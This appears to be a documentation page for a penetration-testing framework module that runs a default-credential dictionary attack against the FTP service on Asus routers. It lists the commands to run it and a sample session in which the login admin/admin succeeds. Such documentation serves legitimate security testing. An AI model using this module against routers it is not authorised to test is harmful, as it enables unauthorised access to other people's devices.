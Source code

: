 ## Description

Module performs dictionary attack with default credentials against Asus Router FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/asus/ftp_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/asus/ftp_default_creds
rsf (Asus Router Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Asus Router Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
